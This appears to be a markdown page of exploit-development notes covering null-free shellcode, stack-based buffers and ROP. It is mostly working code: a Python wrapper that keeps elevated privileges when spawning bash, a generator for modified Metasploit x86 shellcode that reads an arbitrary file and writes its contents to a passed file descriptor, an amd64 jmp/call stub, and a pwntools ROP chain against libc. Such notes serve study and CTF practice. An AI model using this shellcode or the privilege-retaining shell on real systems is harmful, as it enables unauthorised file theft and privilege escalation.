 Note that the usually the base pointer is trashed during the exploting
process in a normal exploitation process, but the stack pointer is not.


 - http://www.blackhatlibrary.net/Shellcode/Null-free
 - [Error codes](http://www-numi.fnal.gov/offline_software/srt_public_context/WebDocs/Errors/unix_system_errors.html)

Since the standard ``/bin/sh`` is a link to ``/bin/bash`` that
droppes privileges when called, you can call instead a script
like the following

```python
#!/usr/bin/env python2
import os
os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
os.execlp("bash", "bash")
```

## Stack-based

In this context you are to pratically programming with assembly
into a buffer.

For example the following shellcode opens a fixed file and then write its contents
of to a file descriptor passed as first argument into the stack:

```python
# linux/x86/read_file - 84 bytes
# http://www.metasploit.com
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
#
# Modified shell code that reads a file and write its contents in the file descriptor
# passed as first argument into the stack.
#
# TODO: make configurable the use of sys_sendto() and return to the caller.
import sys

if len(sys.argv) < 2:
    sys.stderr.write('usage: %s <PATH>' % sys.argv[0])
    sys.exit(1)

path = sys.argv[1]

def put_piece_into_stack(piece):
    length = len(piece)
    assert length <= 4

    null_byte_needed = length < 4

    if null_byte_needed:
        piece = 'x'*(4 - length) + piece

    return  null_byte_needed, ('\xb8%s' % piece) + \
            ('\xc1\xe8%c' % ((4 - length)*8) if null_byte_needed else '') + \
            '\x50'

def build_string_into_stack(path_string):
    '''Returns the instructions to put into the stack
    the path needed

    0x00000002   5               b87878786f  mov eax, 0x6f787878
    0x00000007   3                   c1e818  shr eax, 0x18
    0x0000000a   1                       50  push eax
    '''

    path_length = len(path_string)
    # split the path so that each piece fit into a 32 bits register
    path_componentes = [path_string[x:x + 4] for x in range(0, path_length, 4)]
    path_componentes.reverse()

    buf = ''

    for path_component in path_componentes:
        null_byte_needed, opcode = put_piece_into_stack(path_component)
        buf += opcode

    return buf


buf  = ""                             # NOTE: some offset are wrong since we have modified the original shellcode
buf += "\x89\xe5"                     # 0x00000000   2                     89e5  mov ebp, esp

buf += build_string_into_stack(path)

buf += "\x31\xc0"                     # 0x00000017   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000019   1                       40  inc eax
buf += "\x40"                         # 0x0000001a   1                       40  inc eax
buf += "\x40"                         # 0x0000001b   1                       40  inc eax
buf += "\x40"                         # 0x0000001c   1                       40  inc eax
buf += "\x40"                         # 0x0000001d   1                       40  inc eax
buf += "\x89\xe3"                     # 0x0000001e   2                     89e3  mov ebx, esp
buf += "\x31\xc9"                     # 0x00000020   2                     31c9  xor ecx, ecx
buf += "\xcd\x80"                     # 0x00000022   2                     cd80  int 0x80             sys_open()
buf += "\x89\xc3"                     # 0x00000024   2                     89c3  mov ebx, eax
buf += "\xb8\x40\x30\x20\x10"         # 0x00000026   5               b840302010  mov eax, 0x10203040
buf += "\xc1\xe8\x10"                 # 0x0000002b   3                   c1e810  shr eax, 0x10
buf += "\x50"                         # 0x0000002e   1                       50  push eax
buf += "\x29\xc4"                     # 0x0000002f   2                     29c4  sub esp, eax
buf += "\x31\xc0"                     # 0x00000031   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000033   1                       40  inc eax
buf += "\x40"                         # 0x00000034   1                       40  inc eax
buf += "\x40"                         # 0x00000035   1                       40  inc eax
buf += "\x89\xe7"                     # 0x00000036   2                     89e7  mov edi, esp
buf += "\x89\xf9"                     # 0x00000038   2                     89f9  mov ecx, edi
buf += "\x8b\x55\xf0"                 # 0x0000003a   3                   8b55f0  mov edx, [ebp-0x10]
buf += "\xcd\x80"                     # 0x0000003d   2                     cd80  int 0x80             sys_read()
buf += "\x89\xc2"                     # 0x0000003f   2                     89c2  mov edx, eax
buf += "\x31\xc0"                     # 0x00000041   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000043   1                       40  inc eax
buf += "\x40"                         # 0x00000044   1                       40  inc eax
buf += "\x40"                         # 0x00000045   1                       40  inc eax
buf += "\x40"                         # 0x00000046   1                       40  inc eax
buf += "\x8b\x5d\x04"                 # 0x00000047   3                   8b5d04  mov ebx, [ebp+0x4]
buf += "\xcd\x80"                     # 0x0000004a   2                     cd80  int 0x80             sys_write()
buf += "\x31\xc0"                     # 0x0000004c   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x0000004e   1                       40  inc eax
buf += "\x31\xdb"                     # 0x0000004f   2                     31db  xor ebx, ebx
buf += "\xcd\x80"                     # 0x00000051   2                     cd80  int 0x80             sys_exit()

sys.stdout.write(buf)
```

### Retrieve buffer related address

This below is an example in which we do a jmp and a call back, in this
way we obtain from the stack the address from which the call is started:
(the code is for ``amd64``)

```asm
    /* call write(1, 4196356, 3) */
    jmp miao
start:
    pop rsi
    push (SYS_write) /* 1 */
    pop rax
    push 1
    pop rdi
    push 50
    pop rdx
    syscall
    
    ret
miao:    call start
.ascii "miao\0"
```
(is inspired from the original [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)).

## ROP

```python
import sys

from pwnlib.rop import rop
from pwnlib import constants
from pwnlib.context import context

context.arch = 'amd64'
r = rop.ROP('libc.so.6')
r.write(constants.STDOUT_FILENO, 0x400639, 5)
r.exit()

sys.stderr.write(r.dump())

sys.stdout.write(str(r))
```

### Links

 - [Bypassing ASLR – Part III](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/) GOT overwrite and GOT dereference
